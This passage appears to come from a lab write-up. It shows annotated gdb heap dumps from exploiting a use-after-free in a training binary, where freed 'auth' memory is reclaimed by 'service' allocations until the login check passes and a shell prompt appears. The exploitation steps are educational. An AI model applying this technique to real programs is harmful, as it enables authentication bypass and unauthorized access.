 ```
------------------------------------------------------
0x804a000:	0x00000000	0x00000011	0x696d6461	0x00000a6e  <--- admin is written in the heap
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
------------------------------------------------------
0x804a008, (nil) 
reset                                                       <--- we reset to call free on auth

Breakpoint 1, 0x08048591 in main ()
------------------------------------------------------
0x804a000:	0x00000000	0x00000011	0x00000000	0x00000a6e  <--- memory cleared (heap implementation)
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
------------------------------------------------------
0x804a008, (nil) 
service AAA                                                 <--- We write 4 bytes (space taken)

Breakpoint 1, 0x08048591 in main ()
------------------------------------------------------
0x804a000:	0x00000000	0x00000011	0x41414120	0x0000000a
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
------------------------------------------------------
0x804a008, 0x804a008 
service BBB                                                 <--- We write 4 bytes again, landing 16 bytes after `auth`

Breakpoint 1, 0x08048591 in main ()
------------------------------------------------------
0x804a000:	0x00000000	0x00000011	0x41414120	0x0000000a
0x804a010:	0x00000000	0x00000011	0x42424220	0x0000000a  <--- Again, lading 32 bytes after
0x804a020:	0x00000000	0x00020fe1	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
------------------------------------------------------
0x804a008, 0x804a018 
service CCC

Breakpoint 1, 0x08048591 in main ()
------------------------------------------------------
0x804a000:	0x00000000	0x00000011	0x41414120	0x0000000a
0x804a010:	0x00000000	0x00000011	0x42424220	0x0000000a
0x804a020:	0x00000000	0x00000011	0x43434320	0x0000000a  <--- We change the value of the int in the auth struct
0x804a030:	0x00000000	0x00020fd1	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
------------------------------------------------------
0x804a008, 0x804a028 
login                                                       <--- We can now login
$
```

